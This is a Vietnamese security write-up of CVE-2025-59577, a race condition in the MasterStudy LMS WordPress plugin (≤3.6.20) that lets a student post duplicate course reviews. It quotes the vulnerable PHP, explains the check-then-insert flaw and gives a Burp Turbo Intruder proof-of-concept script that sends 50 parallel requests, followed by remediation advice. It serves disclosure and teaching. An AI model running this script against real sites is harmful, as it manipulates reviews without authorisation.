


<!--more-->

## CVE & Basic Info
Lỗ hổng **Thực thi đồng thời sử dụng tài nguyên dùng chung nhưng đồng bộ không đúng cách (Race Condition)** trong **Stylemix MasterStudy LMS** cho phép khai thác điều kiện tranh chấp. Lỗ hổng này ảnh hưởng đến MasterStudy LMS từ các phiên bản trước đến **3.6.20**.

* **CVE ID**: [CVE-2025-59577](https://www.cve.org/CVERecord?id=CVE-2025-59577)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 3.6.20
* **Patched Versions**: 3.6.21
* **CVSS severity**: Low (4.3)
* **Required Privilege**: Subcriber
* **Product**: [WordPress MasterStudy LMS Plugin](https://wordpress.org/plugins/masterstudy-lms-learning-management-system/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **MasterStudy LMS**:  
    * `3.6.20` – **vulnerable**  
    * `3.6.21` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Plugin đã đăng ký action hook:

```php
add_action( 'wp_ajax_stm_lms_add_review', 'STM_LMS_Reviews::add_review', 100 );
```

`wp_ajax_` là hook dành cho người đùng đã đăng nhập, khi có request gửi đến `/wp-admin/admin-ajax.php` với param `action=stm_lms_add_review` thì callback `add_review()` được gọi:

```php {title="reviews.php v3.6.20" hl_lines=[43,46] data-open=true}
public static function add_review() {
    check_ajax_referer( 'stm_lms_add_review', 'nonce' );

    if ( empty( $_POST['post_id'] ) ) {
        die;
    }
    $course_id = intval( $_POST['post_id'] );

    if ( ! is_user_logged_in() ) {
        $error_message = wp_kses_post(
            sprintf(
                __( 'Please, <a href="%s" class="masterstudy-single-course-reviews__login-link" target="_blank">login</a> to leave a review', 'masterstudy-lms-learning-management-system' ),
                esc_url( STM_LMS_User::login_page_url() )
            )
        );
    }

    if ( STM_LMS_Course::check_course_author( $course_id, get_current_user_id() ) ) {
        $error_message = esc_html__( 'You can\'t leave a review for your own course', 'masterstudy-lms-learning-management-system' );
    }

    if ( ! empty( $error_message ) ) {
        return wp_send_json(
            array(
                'error'   => true,
                'status'  => 'error',
                'message' => $error_message,
            )
        );
    }

    $mark   = ( ! empty( $_POST['mark'] ) ) ? intval( $_POST['mark'] ) : 0;
    $review = ( ! empty( $_POST['review'] ) ) ? wp_kses_post( $_POST['review'] ) : '';

    if ( ! STM_LMS_Options::get_option( 'course_allow_review', true ) ) {
        if ( ! STM_LMS_User::has_course_access( $course_id ) ) {
            $r = array(
                'error'   => true,
                'status'  => 'error',
                'message' => esc_html__( 'You must purchase the course to leave a review', 'masterstudy-lms-learning-management-system' ),
            );
        } else {
            $r = self::create( $course_id, $mark, $review );
        }
    } else {
        $r = self::create( $course_id, $mark, $review );
    }

    wp_send_json( $r );
}
```

Trong `add_review()`, plugin thực hiện một loạt các kiểm tra:
* Kiểm tra nonce (chống **CSRF**)
* Kiểm tra đã đăng nhập hay chưa
* Không cho giảng viên tự review khóa học của mình
* Kiểm tra người dùng đã mua khóa học hay chưa (nếu cấu hình yêu cầu)

Sau khi các điều kiện này hợp lệ, hàm không tự xử lý việc tạo review, mà chuyển toàn bộ sang:

```php
$r = self::create( $course_id, $mark, $review );
```

```php {title="reviews.php v3.6.20" hl_lines=[15,63,72] data-open=true}
public static function create( $course_id, $mark, $review ) {
		$current_user = STM_LMS_User::get_current_user();
		if ( empty( $current_user['id'] ) ) {
			die;
		}
		$user_id = $current_user['id'];

		$r = array(
			'error'   => false,
			'status'  => 'success',
			'message' => esc_html__( 'Your review is moderating.', 'masterstudy-lms-learning-management-system' ),
		);

		/*Check if user has review*/
		$prev_reviews = self::get_user_review_on_course( $course_id, $user_id );
		if ( $prev_reviews->found_posts ) {
			$r = array(
				'error'   => true,
				'status'  => 'error',
				'message' => esc_html__( 'You already left review.', 'masterstudy-lms-learning-management-system' ),
			);
		}

		if ( empty( $mark ) ) {
			$r = array(
				'error'   => true,
				'status'  => 'error',
				'message' => esc_html__( 'Please, check rating', 'masterstudy-lms-learning-management-system' ),
			);
		}

		if ( empty( $review ) ) {
			$r = array(
				'error'   => true,
				'status'  => 'error',
				'message' => esc_html__( 'Please, write review.', 'masterstudy-lms-learning-management-system' ),
			);
		}

		if ( ! $r['error'] ) {
			if ( $mark > 5 ) {
				$mark = 5;
			}
			if ( $mark < 1 ) {
				$mark = 1;
			}

			/* Create post object*/
			$my_review = array(
				'post_type'    => 'stm-reviews',
				'post_title'   => wp_strip_all_tags(
					sprintf(
						/* translators: %s: string */
						esc_html__( 'Review on %1$s by %2$s', 'masterstudy-lms-learning-management-system' ),
						get_the_title( $course_id ),
						$current_user['login']
					)
				),
				'post_content' => $review,
				'post_status'  => 'pending',
			);

			$review_id = wp_insert_post( $my_review );

			$meta_fields = array(
				'review_course' => $course_id,
				'review_user'   => $user_id,
				'review_mark'   => $mark,
			);

			foreach ( $meta_fields as $meta_key => $meta_value ) {
				update_post_meta( $review_id, $meta_key, $meta_value );
			}

			$course_title = get_the_title( $course_id );
			$login        = $current_user['login'];

			STM_LMS_Helpers::send_email(
				'admin',
				esc_html__( 'New Review', 'masterstudy-lms-learning-management-system' ),
				sprintf(
					/* translators: %s: string */
					esc_html__( 'Check out new review on course %1$s by %2$s', 'masterstudy-lms-learning-management-system' ),
					$course_title,
					$login
				),
				'stm_lms_new_review',
				compact( 'course_title', 'login' )
			);

			delete_transient( STM_LMS_Instructor::transient_name( $current_user['id'], 'rating' ) );
		}

		return $r;
	}
```

Trong `create()`, plugin kiểm tra xem người dùng đã từng review khóa học này hay chưa:

```php
$prev_reviews = self::get_user_review_on_course( $course_id, $user_id );
if ( $prev_reviews->found_posts ) {
    ...
}
```

Nếu chưa có review, plugin tiếp tục:

```php
$review_id = wp_insert_post( $my_review );
update_post_meta(...)
```

Tuy nhiên, không có bất kỳ **lock** hay **transaction** nào để đảm bảo rằng trạng thái `“chưa có review”` vẫn còn đúng tại thời điểm ghi dữ liệu.

**Kịch bản Race Condition thực tế**:

Giả sử người dùng gửi **hai request song song**:

* Request A kiểm tra: chưa có review => hợp lệ
* Request B kiểm tra: chưa có review => hợp lệ
* Request A tạo review
* Request B cũng tạo review

Kết quả: Database xuất hiện hai review cho cùng user và cùng khóa học, dù logic hệ thống chỉ cho phép một review.

> [!NOTE]
> Để có thể tạo review, trước hết cần đăng ký và đăng nhập bằng tài khoản **student** tại:
> `http://localhost/user-account/`
>
> Hệ thống sẽ yêu cầu đăng nhập để thực hiện chức năng review này.
>
> 

## Flow


## Proof of Concept (PoC)

1. Đăng ký và đăng nhập bằng tài khoản **student**.
2. Truy cập vào một khóa học bất kỳ, bật **Intercept** trên Burp Suite.
3. Thực hiện gửi review, bắt request và **Send to Turbo Intruder**, sau đó **drop** request gốc.
4. Trong Turbo Intruder, chỉnh sửa script như sau để gửi nhiều request song song:

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=20,
        requestsPerConnection=1,
        pipeline=False
    )

    for i in range(50):
        engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

5. Nhấn **Attack** để bắt đầu gửi các request đồng thời và quan sát kết quả (nhiều review được tạo cùng lúc).


## Conclusion

Lỗ hổng xảy ra do plugin sử dụng mô hình **kiểm tra trước rồi mới ghi (check-then-insert)** nhưng không có bất kỳ cơ chế **lock** hay **transaction** nào ở mức cơ sở dữ liệu. Khi nhiều request AJAX được gửi song song, tất cả đều có thể vượt qua bước “chưa có review” trước khi bất kỳ request nào kịp ghi dữ liệu, dẫn đến việc cùng một người dùng có thể tạo nhiều review cho cùng một khóa học. Điều này phá vỡ logic nghiệp vụ vốn chỉ cho phép mỗi người dùng để lại một review cho mỗi khóa học.

## Key Takeaways

* Race Condition có thể xảy ra ngay cả khi đã có đầy đủ kiểm tra đăng nhập và phân quyền.
* Logic “kiểm tra rồi mới ghi” cần được bảo vệ bằng **lock** hoặc **transaction** khi có khả năng xử lý song song.
* Các endpoint AJAX rất dễ bị khai thác race condition vì attacker có thể gửi nhiều request đồng thời.
* Việc ngăn trùng lặp nên được đảm bảo ở mức **database** (unique constraint) hoặc bằng cơ chế khóa rõ ràng trong code.

## References
[Race Condition](https://patchstack.com/academy/wordpress/vulnerabilities/race-condition/)

[WordPress MasterStudy LMS Plugin <= 3.6.20 is vulnerable to Race Condition](https://patchstack.com/database/wordpress/plugin/masterstudy-lms-learning-management-system/vulnerability/wordpress-masterstudy-lms-plugin-3-6-20-race-condition-vulnerability) 